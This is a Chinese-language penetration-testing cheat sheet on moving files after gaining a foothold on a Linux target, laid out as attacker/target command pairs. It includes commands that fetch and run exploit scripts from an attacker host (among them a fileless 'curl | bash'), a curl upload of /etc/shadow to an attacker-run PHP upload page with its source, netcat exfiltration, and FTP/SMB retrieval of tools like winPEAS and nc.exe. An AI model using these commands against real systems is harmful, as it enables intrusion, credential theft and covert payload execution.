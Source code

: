 ```yaml
---
description: 在目标系统中已经成功建立立足点后，需要传输一些脚本到目标系统中，以实现后续的提权操作
---
```


# ✔️ Linux文件传输 - Linux File Transfers

## 常规方式

### 利用Python传输：

```bash
// Attacker
python3 -m http.server 8888
```

```bash
// Target
wget http://攻方IP:8888/利用脚本.sh
chmod +x 利用脚本.sh
利用脚本.sh
```

### 利用Apache2传输：

```
// Attacker
1. 准备好upload.php文件，放在/var/www/html目录下；
2. 同时在/var/www/html目录下再创建一个/uploads目录，用于存放稍后从目标系统中传回的敏感文件；
```

```bash
// Target
curl --form "uploadedfile=@/etc/shadow" http://攻方IP/upload.php
```

```php
// upload.php
<?php  
$target_path = "uploads/";
$target_path = $target_path.basename($_FILES['uploadedfile']['name']);

echo "Source=".$_FILES['uploadedfile']['name']."<br/>";
echo "Target path=".$target_path."<br/>";
echo "Size=".$_FILES['uploadedfile']['size']."<br/>";

if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)){
	echo "The file".basename($_FILES['uploadedfile']['name'])."has been uploaded";
}else{
	echo "There was an error uploading the file,please try again!"
}

?>
```

### 利用Netcat传输

```bash
// Attacker
nc -lvp 1234 > 传回的文件名 
```

```bash
// Target
nc 攻方IP 1234 < 待传回的文件名
```

### 利用FTP传输

#### 方法1：

```bash
// Attacker
sudo python3 -m pyftpdlib  -p 21 -w
python -m pyftpdlib -p 21
```

```bash
// Target
ftp -A 攻方IP
dir               # 查找要传到目标上的程序，本例为：winPEAS.exe
get winPEAS.exe
bye
```

#### 方法2：

```bash
// Attacker
cp /usr/share/.../nc.exe /ftphome/
systemcrl restart pure-ftpd
```

```bash
// Target
echo open 攻方IP >> ftp.txt
echo USER 用户名 >> ftp.txt
echo 密码 >> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt

// 执行ftp.txt
ftp -v -n -s:ftp.txt
```

### 利用SCP传输

使用 SCP（Secure Copy Protocol）在 Linux 系统中进行文件传输时，实际上是在通过 SSH 连接进行加密传输。

```bash
// 格式
scp 待传输文件的路径 目标用户命@目标IP:传输后保存的路径
scp /path/to/local/file username@remote_host:/path/to/destination
```

#### 将文件上传到目标主机

```bash
// Attacker
scp example.txt username@remote_host:/home/username/
scp /path/to/local/file username@remote_host:/path/to/destination
```

* `/path/to/local/file`：本地系统上要传输的文件的路径
* `username`：远程系统上的用户名
* `remote_host`：远程系统的主机名或 IP 地址
* `/path/to/destination`：远程系统上存储文件的目标路径

#### 将目标主机中的文件下载到本地

```bash
// Attacker
scp username@remote_host:/path/to/remote/file /path/to/local/destination
scp username@remote_host:/home/username/example.txt /path/to/local/destination
```

* `/path/to/local/file`：本地系统上要传输的文件的路径
* `username`：远程系统上的用户名
* `remote_host`：远程系统的主机名或 IP 地址
* `/path/to/destination`：远程系统上存储文件的目标路径

### SCP + SSH

若已经配置了 SSH 密钥认证，则可以免去输入密码的步骤。在执行 SCP 命令时，系统会自动使用 SSH 密钥进行认证。









### 利用SMB客户端传输

前提条件：**已安装smbclient**

```bash
// 格式：
smbclient //server_ip/share_name -U username
```

启动了一个 SMB 服务器，允许其他设备通过 SMB 协议与之通信，并在本地文件系统的当前目录下共享文件（本例为 "liodeus"）：

```bash
// Attacker
sudo smbserver.py -smb2support liodeus .
```

```bash
// Target
smbclient //攻方IP/liodeus -U 用户名
// 连接成功后，查找对应文件，并下载到目标本机中(本例为 "liodeus")：
ls
get liodeus
// 还可以从目标机器里上传文件到攻方SMB服务器：
put 文件名
quit
```



## 隐蔽方式

```bash
// Attacker
python3 -m http.server 8888
```

```
// Target
curl http://攻方IP:8888/利用脚本.sh | bash
```

MEMO：该利用脚本不会被保存在目标系统中

